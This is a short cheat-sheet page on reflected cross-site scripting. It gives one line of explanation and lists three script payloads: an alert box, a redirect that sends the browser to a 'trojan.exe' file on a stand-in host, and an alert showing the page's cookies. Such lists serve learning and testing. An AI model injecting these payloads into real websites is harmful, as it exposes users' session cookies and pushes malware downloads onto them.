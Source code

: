 ```yaml
---
description: Reflected Cross Site Scripting
---
```


# XSS | Reflected

If the server has an input space, you can try to index the JavaScript code on the web page.

### Payloads:

```html
<script>alert("hacked")</script>
```

```html
<script>document.location="http://localhost/trojan.exe"</script>
```

```html
<script>alert(document.cookie)</script>
```
